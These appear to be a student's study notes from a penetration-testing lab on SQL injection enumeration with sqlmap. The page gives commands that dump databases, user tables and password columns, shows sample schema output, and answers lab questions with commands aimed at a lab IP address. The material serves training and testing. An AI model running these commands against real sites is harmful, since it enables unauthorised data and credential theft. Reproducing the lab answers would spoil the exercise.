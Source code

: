 # 🏇 Database Enumeration

Enumeration usually starts with the retrieval of the basic information:

* Database version banner (switch `--banner`)
* Current user name (switch `--current-user`)
* Current database name (switch `--current-db`)
* Checking if the current user has DBA (administrator) rights.

```shell-session
sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba
```

after finding the current database name (i.e. `testdb`) we might want to find the table names -> `--tables` option and specifying the DB name with `-D testdb`

```shell-session
sqlmap -u "http://www.example.com/?id=1" --tables -D testdb
```

And after finding the name, we can use `--dump` option and specify the table name with `-T users`

```shell-session
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb
```

It will produce a .CSV file that we can use in SQLite:

<figure><img src="../../../.gitbook/assets/image (15) (1) (2).png" alt=""><figcaption></figcaption></figure>

If we want to do conditional enumeration and retrieve certain rows we can use the option `--where`, as follows

```shell-session
sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"
```

By simply using the switch `--dump` without specifying a table with `-T`, all of the current database content will be retrieved. As for the `--dump-all` switch, all the content from all the databases will be retrieved.

_**What's the contents of table flag1 in the testdb database? (Case #1)**_

```
sqlmap http://94.237.53.113:50888/case1.php?id=1 --dump -T flag1 -D testdb
```

## Advanced Database Enumeration

have a complete overview of the database architecture, we could use the switch `--schema`

```shell-session
sqlmap -u "http://www.example.com/?id=1" --schema
```

It would turn out something like that:

```
...SNIP...
Database: master
Table: log
[3 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| date   | datetime     |
| agent  | varchar(512) |
| id     | int(11)      |
+--------+--------------+

Database: owasp10
Table: accounts
[4 columns]
+-------------+---------+
| Column      | Type    |
+-------------+---------+
| cid         | int(11) |
| mysignature | text    |
| password    | text    |
| username    | text    |
+-------------+---------+
...
Database: testdb
Table: data
[2 columns]
+---------+---------+
| Column  | Type    |
+---------+---------+
| content | blob    |
| id      | int(11) |
+---------+---------+

Database: testdb
Table: users
[3 columns]
+---------+---------------+
| Column  | Type          |
+---------+---------------+
| id      | int(11)       |
| name    | varchar(500)  |
| surname | varchar(1000) |
+---------+---------------+
```

we can search for databases, tables, and columns of interest, by using the `--search` option

```shell-session
sqlmap -u "http://www.example.com/?id=1" --search -T user
```

It would turn out:

```
..SNIP...
[14:24:19] [INFO] searching tables LIKE 'user'
Database: testdb
[1 table]
+-----------------+
| users           |
+-----------------+

Database: master
[1 table]
+-----------------+
| users           |
+-----------------+
```

We could also have tried to search for all column names based on a specific keyword (e.g. `pass`):

```shell-session
sqlmap -u "http://www.example.com/?id=1" --search -C pass
```

### Password Enumeration and Cracking

Once we identify a table containing passwords (e.g. `master.users`), we can retrieve that table with the `-T` option

```shell-session
sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users
```

_**What's the name of the column containing "style" in it's name? (Case #1)**_

```
sqlmap -u "http://94.237.53.113:50888/case1.php?id=1" --search -C style
```

_**What's the Kimberly user's password? (Case #1)**_

```
sqlmap -u "http://94.237.53.113:50888/case1.php?id=1" --search -T users
```
